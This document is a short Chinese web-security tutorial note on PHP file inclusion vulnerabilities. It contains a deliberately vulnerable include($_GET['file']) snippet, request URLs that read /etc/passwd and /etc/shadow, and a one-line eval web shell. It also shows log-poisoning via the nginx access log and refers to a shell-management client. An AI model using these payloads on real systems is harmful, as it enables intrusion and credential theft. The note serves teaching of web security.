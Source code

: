```yaml
---
title: 08.文件包含
description: 文件包含漏洞
published: 1
date: 2023-05-29T04:16:58.574Z
tags: web safe, file
editor: markdown
dateCreated: 2023-04-19T17:26:52.542Z
---
```


<center>文件包含</center>



[toc]





## 文件包含

> 文件包含: ==包含一个文件==
>
> 远程文件(危害大) 和本地文件

```php
# 本地文件
# index.php

$file = $_GET['file'];

if($file){
    include("$file");
    // include_once()
    // require()
    // require_once()

}else{
    echo 'file fail';
}
```

> url构造请求

```shell
http://127.0.0.1/?file=aa.php

# linux 服务器
http://127.0.0.1/?file=/var/www/html/public/aa.php
# linux的敏感信息
http://127.0.0.1/?file=/etc/passwd
http://127.0.0.1/?file=/etc/shadow
```



### 1.小技巧

> 输入到日志中

```shell
http://127.0.0.1/?file=/var/log/nginx/access.log
```

> 一句话木马

```shell
# aa.php
<?php eval($_POST['goer']); ?>

# 请求
http://127.0.0.1/?file=aa.php

# 下载使用中国蚁剑连接
```

> 如果没有文件上传，又想包含文件呢？

```shell
# 写入到日志中
http://127.0.0.1/?file=<?php eval($_POST['goer']); ?>
```





### 2. 提示

> 一般网站都包含一些共同文件

```shell
robots.txt
# 防止爬虫爬取的页面

# 熟悉服务器上资源
```





















